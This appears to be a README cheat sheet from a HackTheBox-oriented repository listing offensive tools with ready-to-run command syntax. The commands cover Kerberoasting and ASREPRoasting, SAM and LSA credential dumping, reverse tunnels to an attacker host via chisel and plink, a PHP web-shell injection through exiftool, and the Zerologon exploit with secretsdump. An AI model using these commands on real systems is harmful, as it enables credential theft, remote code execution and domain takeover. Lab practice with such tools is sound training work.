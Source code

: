 # Tools


#### Windows and Active Directory
| Tool | Use | Command Syntax |
| ---- | --- | -------------- |
| [Bloodhound.py](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/BloodHound.py) | BloodHound written in python. Used to obtain AD infromations from a windows machine | `python3 bloodhound-python -u <username> -p <passphrase> -ns <machineIP> -d <domainname> -c all` |
| [Impackets](https://github.com/SecureAuthCorp/impacket) | Swiss Knife for most Windows AD attacks | `python GetNPUsers.py <domain_name>/ -usersfile <users_file>` = ASREPRoasting <br /> `python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password>` = Kerberoasting |
| [Kerbrute](https://github.com/ropnop/kerbrute) | A tool written in GO to enumerate AD users | `./kerbrute userenum --dc <machine ip> -d <doaminname> <users_file>` |
| [CredDump](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/creddump) | Used to obtain Cached Credentials, LSA Secrets and Password hash when system and sam files are available | `./pwdump.py <system hive> <sam hive>` = Obtain Password Credentials <br /> `./cachedump.py <system hive> <sam hive>` = obtain cached credentials <br /> `./lsadum.py <system hive> <sam hive>` = Obtain LSA Dumps |
| [PwdDump](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/pwdump) | After getting the `administrative` access, running this will get the password hashes | `.\PwDump7.exe`|
| [ApacheDirectoryStudio](https://directory.apache.org/studio/downloads.html) | LDAP browser which is used to analyze LDAP instance running on linux (CREDS required), here transferring the LDAP running on a victim machine and accessing it in the attacker machine | `sudo ssh -L 389:172.20.0.10:389 lynik-admin@10.10.10.189` |
| [Windsearch](https://github.com/ropnop/go-windapsearch) | Enumerates anything as a authenticated user on the network with modules | `windsearch -d spookysec.local -u 'svc-admin' -p 'management2005' -m computers` |


#### Port Forwarding
| Tool | Use | Command Syntax|
| ---- | --- | -------------- |
| [Chisel](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/chisel) | Used to forward a service running on a port in the victim machine | `./chisel server -p <port no.> --revserse` = on the attacker machine <br /> `./chisel client <attackerip:port> R:1234:127.0.0.1:1121` = Forwards the service running on port 1121 to the port 1234 on attackers machine |
| [socat](https://github.com/craSH/socat) | Swiss Knife for Port forwarding | `socat TCP-LISTEN:8000,fork TCP:<machineIP>:<port>` = Listens on every connection to port `8000` and forwards to the `machineIP` and its `port` <br /> `socat TCP-LISTEN:9002,bind=<specific ip>,fork,reuseaddr TCP:localhost:<port>` = forward all incoming requests to the port 9002 from <specific ip> to the localhost port, reuseaddr is used to specify socat use the address (eg. localhost) even if its used by other services|
| [plink](https://github.com/Plotkine/pentesting/blob/master/Windows_privilege_escalation/Windows-privesc-tib3rius/plink.exe) | SSH Putty in CLI mode | `.\plink.exe <user@host> -R <remote port>:<localhost>:<local port>` .\plink.exe kali@10.10.14.32 -R 8888:127.0.0.1:8888 = port forwards the service running on victim machines port 8888 to the attacker machines 8888 |


#### Directory Enumeration
| Tool | Use | Command Syntax |
| ---- | --- | -------------- |
| [DirSearch](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/dirsearch) | Directory enumeration Tool | `python3 dirsearch.py -u <url> -e <extn>` |
| [Gobuster](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/gobuster) | Directory enumeration tool written in GO | `gobuster dir -u <url> -w <wordlist> -x <extn> -b <hide status code> -t <threads>`|
| [RustBuster](https://github.com/phra/rustbuster)| Direcotry Enumeration tool written in rust |  `rustbuster dir -u <url> -w <wordlist> -e <extn>` |




#### Post Exploitation
| Tool | Use | Command Syntax |
| ---- | --- | -------------- |
| [LinEnum](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/LinEnum) | Post Enumeration scripts that automates enumeration | `./LinEnum.sh` |
| [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) | Post Enumeration Script | `./linpeas.sh` |
| [WinPEASbat/WinPEASexe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | Windows post enumeration script and exe | `.\winPEAS.bat` |


#### Misc
| Tool | Use | Command Syntax |
| ---- | --- | -------------- |
| [Exiftool](https://github.com/cyberwr3nch/hackthebox/tree/master/tools/ExifTool) | Inspects the meta data of the image, Injects php payload in the comment section for file upload vulns, which can be added double extension `file.php.ext` | `./exiftool -Comment='<?php system($_GET['cmd']); ?>' <image.ext>`
| [Git Dumper](https://github.com/arthaud/git-dumper) | Dump the Github repo if found in website | `./git-dumper.py <website/.git> <output folder>` |
| [lxd-alpine builder](https://github.com/saghul/lxd-alpine-builder) | When a victim machine is implemented with lxc the privesc is done with this | [`article here`](https://www.hackingarticles.in/lxd-privilege-escalation/) |
| [Php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) | Php reverse shell, when an upload is possible change the IP and make req to obtain reverse shell | |
| [ZerologonPOC](https://github.com/risksense/zerologon) | CVE-2020-1472 Exploit, sets the domain admin password as empty pass and dump the secrets. _PS: Latest Version of Impackets is required_ | `python3 set_empty_pw.py machinename/domainname machine IP; secretsdump.py -just-dc -no-pass machinename\$@machineip`|
| [Gopherus](https://github.com/tarunkant/Gopherus) | SSRF with `gopher://` protocol | `gophreus --exploit phpmemcache` |

